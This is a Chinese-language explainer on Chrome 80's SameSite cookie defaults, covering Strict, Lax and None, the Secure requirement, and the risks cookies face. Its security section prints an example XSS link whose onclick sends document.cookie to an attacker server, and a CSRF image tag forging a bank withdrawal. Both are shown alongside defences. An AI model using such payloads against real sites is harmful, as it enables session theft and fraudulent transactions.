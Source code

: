Chrome将从2月的Chrome 80开始执行新的Cookie策略，对未设置“SameSite”的Cookie默认其值为Lax，即三方网站如果使用了该资源，在请求中是不会带上相关的Cookie的；对SameSite设置为None的Cookie，要求必须同时设置Secure，否则拒绝此Cookie。


### SameSite
这是一个用来决定Cookie的可用网站范围的属性。它有三个值：

1. Strict: 仅限于同站请求
1. Lax: 同站请求，或者跨站的GET的会导致页面URL发生变化的导航行为，包括链接、GET的Form提交。比如在 http://www.def.com 网站的页面中嵌入了一个链接 http://www.abc.com ，那么在用户点击此链接时发起的初始请求，会带上http://www.abc.com中设置为Lax的Cookie。而那些设置为Strict的Cookie是不会带上的。这种跨站链接还包括像嵌入到邮件中的链接。
2. None: 没有限制，同站及跨站请求中都会带上，与传统的方式一样。

**在新的Chrome的Privacy Sandbox的策略中：**

1. 如果Cookie未设置SameSite，那把其值默认为Lax。
1. 如果Cookie设置SameSite=None，还需要同时设置Secure，否则此Cookie会被浏览器拒绝。设为Secure之后，其它三方网站对我方网站资源的引用必须使用HTTPS，否则还是不会带上此Cookie，这也要求我方网站必须支持HTTPS。

## 解释

假设有http://www.abc.com和http://www.def.com两个网站，通过之前的某些页面逻辑，浏览器中已经存储了如下Cookie:
```
Set-Cookie: abc1=ok; Domain=abc.com
Set-Cookie: abc2=ok; Domain=www.abc.com
Set-Cookie: abc3=ok; Domain=xyz.abc.com
Set-Cookie: abc4=ok; Domain=abc.com; SameSite=Strict
Set-Cookie: abc5=ok; Domain=abc.com; SameSite=Lax
Set-Cookie: abc6=ok; Domain=abc.com; SameSite=None
Set-Cookie: abc7=ok; Domain=abc.com; SameSite=None; Secure
Set-Cookie: abc8=ok; Domain=xyz.abc.com; SameSite=None
Set-Cookie: abc9=ok; Domain=xyz.abc.com; SameSite=None; Secure

Set-Cookie: def1=ok; Domain=def.com
```

假设当前在http://www.def.com这个网站中：
![](https://pic3.zhimg.com/80/v2-4a00716c99ba7f39a1a4a9fdfc75eee2_720w.jpg)

## 谷歌进行第三方Cookie规则更新的意义

Cookie的不安全主要在三个方面：

### 1. 中间人效应

Cookie的传输将会`经过多个路由器`，它们都将获得Cookie的内容。而Cookie的内容往往标识了登录状态。解决方法便是使用更安全的HTTPS协议进行传输。

### 2. XSS跨站脚本（Cross-Site Scripting）

使用跨站点脚本技术可以窃取cookie。当`网站允许使用javascript操作cookie`的时候，就会发生攻击者发布恶意代码攻击用户的会话，同时可以拿到用户的cookie信息。例子：

``` html
<a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>
```

当用户点击这个链接的时候，浏览器就会执行onclick里面的代码，结果这个网站用户的cookie信息就会被发送到http://abc.com攻击者的服务器。攻击者同样可以拿cookie搞事情。

解决办法：可以通过cookie的HttpOnly属性，设置了HttpOnly属性，javascript代码将不能操作cookie。

### 3. CSRF跨站请求伪造（Cross-Site Request Forgery）

例如，SanShao可能正在浏览其他用户XiaoMing发布消息的聊天论坛。假设XiaoMing制作了一个引用ShanShao银行网站的HTML图像元素，例如:

``` html
<img src = "http://www.bank.com/withdraw?user=SanShao&amount=999999&for=XiaoMing" >
```
如果SanShao的银行将其认证信息保存在cookie中，并且cookie尚未过期，(当然是没有其他验证身份的东西)，那么SanShao的浏览器尝试加载该图片将使用他的cookie提交提款表单，从而在未经SanShao批准的情况下授权交易。

这是利用网站漏洞和`用户未登出`第三方网站进行的攻击。在SameSite问世之前，我们可用通过HTTP头中的Referer字段进行校验。

### 补充：广告商Cookie应用案例

通常cookie的域和浏览器地址的域匹配，这被称为第一方cookie。那么**第三方cookie就是cookie的域和地址栏中的域不匹配**，这种cookie通常被用在第三方广告网站。为了跟踪用户的浏览记录，并且根据收集的用户的浏览习惯，给用户推送相关的广告。

更多：https://zhuanlan.zhihu.com/p/31852168

## 参考

* https://zhuanlan.zhihu.com/p/103420328
* https://zhuanlan.zhihu.com/p/31852168
* https://maxket.com/chrome-samesite-none-update/